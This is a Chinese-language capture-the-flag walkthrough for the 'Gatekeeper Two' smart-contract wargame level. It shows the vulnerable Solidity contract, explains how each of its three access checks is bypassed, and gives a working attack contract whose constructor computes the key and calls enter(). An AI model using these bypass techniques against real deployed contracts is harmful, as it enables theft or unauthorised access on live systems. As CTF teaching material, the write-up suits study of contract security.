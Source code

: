 ### 第十四关 Gatekeeper Two
### 难度3/5
## 这一关的通关条件是通过三道modifier。
## 代码如下：
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
### gateOne
EOA账户使用合约调用关卡合约即可。
### gateTwo
要求caller的code大小必须为0，当构造函数执行初始化合约存储时，它会返回运行时字节码。直到构造函数的结束，合约本身没有任何运行时字节码，这意味着如果你此时调用address(contract).code.length，它将返回0。
### gateThree
需要msg.sender ^ gateKey = 0-1，則可以msg.sender ^ 0-1求得gateKey
## 解题步骤：
1. 打开remix，部署攻击合约：
```Solidity
// SPDX-License-Identifier: MIT
interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwo {
    address levelInstance;
    
    constructor(address _levelInstance) {
      levelInstance = _levelInstance;
      unchecked{
          bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ uint64(0) - 1  );
          IGatekeeperTwo(levelInstance).enter(key);
      }
    }
}
```
2. 提交过关。
